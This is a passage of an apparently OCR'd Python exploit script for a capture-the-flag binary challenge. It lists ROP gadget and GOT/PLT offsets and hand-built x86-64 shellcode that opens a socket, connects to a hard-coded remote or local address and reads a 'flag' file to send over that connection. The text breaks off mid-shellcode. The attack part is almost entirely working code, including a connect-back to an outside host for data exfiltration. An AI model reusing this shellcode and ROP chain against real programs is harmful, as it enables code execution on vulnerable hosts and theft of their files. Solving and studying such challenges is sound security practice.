 ```python
prctl_offset=0x122210
read_offset=0x110020
csu_gadget1=0x4008FA
csu_gadget2=0x4008E0
pop_rdi_ret=0x400645
term_hook=0x600e48
alarm_got_addr=e.got['alarm']
alarm_plt_addr=e.plt['alarm']
prctl_got_addr=e.got['prctl']
prctl_plt_addr=e.plt['prctl']
close_got_addr=e.got['close']
close_plt_addr=e.plt['close']
read_plt_addr=e.plt['read']
read_got_addr=e.got['read']
pop_rax_offset=0x24ad4
pop_rdx_offset=0x1b96
rep_offset=0x3f84a
bss_addr=0x601100
bss_ye=0x601000
mov_rdi_rsp_offset=0x15c2fe

#socket(2,1,0)
"""
push 2
pop rdi
push 1
pop rsi
psuh 0
pop rdx
push 41
pop rax
syscall
"""
socket="\x60\x11\x60\x00\x00\x00\x00\x00\x6A\x02\x5F\x6A\x01\x5E\x6A\x00\x5A\x6A\x29\x58\x0F\x05"

#connect(0,socket_struct_addr,0x8)
"""
push 0
pop rdi
mov rcx,0x13589c5282230002
push rcx
mov rsi,rsp
push 0x10
pop rdx
push 42
pop rax
syscall
"""

#remote
#connect="\x6A\x00\x5F\x48\xB9\x02\x00\x23\x82\x52\x9C\x58\x13\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x2A\x58\x0F\x05"

#local
connect="\x6A\x00\x5F\x48\xB9\x02\x00\x03\xE8\x7F\x00\x00\x01\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x2A\x58\x0F\x05"
#open(flag_addr,0)
#read(1,0x601500,0x50)
#write(0,0x601500,0x50)

"""
push 0x67616c66
mov rdi,rsp
```